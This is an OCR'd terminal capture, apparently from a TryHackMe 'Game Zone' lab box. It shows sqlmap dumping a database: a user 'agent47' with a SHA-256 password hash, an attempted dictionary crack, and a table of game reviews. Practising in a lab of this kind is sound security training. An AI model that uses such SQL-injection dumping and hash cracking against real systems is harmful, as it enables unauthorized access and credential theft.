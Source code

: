 ```
do you want to use common password suffixes? (slow!) [y/N] 
[10:52:01] [INFO] starting dictionary-based cracking (sha256_generic_passwd)
[10:52:01] [INFO] starting 4 processes 
[10:52:10] [WARNING] no clear password(s) found                                                                                                           
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+

[10:52:10] [INFO] table 'db.users' dumped to CSV file '/home/dspo6/.local/share/sqlmap/output/10.10.108.67/dump/db/users.csv'
[10:52:10] [INFO] fetching columns for table 'post' in database 'db'
[10:52:10] [INFO] fetching entries for table 'post' in database 'db'
Database: db
Table: post
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                           | description                                                                                                                                                                                            |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
| 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[10:52:10] [INFO] table 'db.post' dumped to CSV file '/home/dspo6/.local/share/sqlmap/output/10.10.108.67/dump/db/post.csv'
[10:52:10] [INFO] fetched data logged to text files under '/home/dspo6/.local/share/sqlmap/output/10.10.108.67'

[*] ending @ 10:52:10 /2021-02-19/

(dspo6㉿kali)[~/pentest/boxes/thm/game_zone]$ 
```
